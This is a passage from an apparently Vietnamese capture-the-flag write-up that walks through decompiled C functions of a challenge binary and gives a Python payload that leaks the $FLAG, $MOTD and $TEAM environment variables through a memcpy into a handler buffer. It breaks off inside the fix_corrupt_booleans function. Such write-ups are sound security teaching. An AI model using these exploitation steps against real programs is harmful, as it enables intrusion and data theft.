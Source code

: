 Ví dụ `hmm` là "$FLAG$MOTD$X" thì `data_arr` là {5,5,2}.

Đoạn code 
```c
     for ( i = 0; i < cur->arr_count; ++i )
      {
        idx = data_arr[i];
        src = 0LL;
        v5 = 0;
      ...
``` 
cho ta biết độ dài của mảng `data_arr` được set ở `arr_count`.

Ta chỉ cần set `next = 2*arr_count` để đi vào vòng lặp.

Để ý `memcpy(&handler_ptr[next], src, v5);`, tức là nội dung của biến môi trường sẽ được lưu ở `handler_ptr`.

Payload để unpackstring sẽ là:
```python
(    p32(0x60)+ #8
     p8(ord('s'))+ #1
     p16(0x3)+ #2
     p16(0x6)+ #2
     p16(5)*3+
     b"$FLAG"+b"$MOTD"+b"$TEAM"
)
```
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/05d621f2-140b-427b-bbd6-83e8b4180679)

Chúng ta đã lấy được giá trị của 3 biến môi trường, tuy nhiên flag đã bị che lại ở hàm `censor_string`.

Tiếp theo mình check hàm `unpack_bools` và `fix_corrupt_booleans` :
```c
User *__fastcall unpack_bools(User *a1, Handler *a2, void *a3)
{
  int cp_count; // [rsp+2Ch] [rbp-14h]
  __int16 *arrlist; // [rsp+38h] [rbp-8h]

  arrlist = a1->data_arr;
  cp_count = a1->arr_count;
  if ( cp_count <= a1->size && a3 >= (char *)arrlist + a1->arr_count )
  {
    memcpy(a2->handler_ptr, arrlist, a1->arr_count);
    return (User *)((char *)arrlist + cp_count);
  }
  else
  {
    errorstr = "Invalid bool content size";
    return 0LL;
  }
}
char *__fastcall fix_corrupt_booleans(Handler *a1)
{
  char *result; // rax
  char *v2; // [rsp+10h] [rbp-18h]
  char *v3; // [rsp+18h] [rbp-10h]
  int i; // [rsp+24h] [rbp-4h]

  v3 = &a1->handler_ptr[a1->cur_next];
  v2 = &a1->handler_ptr[a1->cur_size];
  for ( i = 0; ; ++i )
  {
    result = (char *)(unsigned int)a1->cur_count;
    if ( i >= (int)result )
      break;
```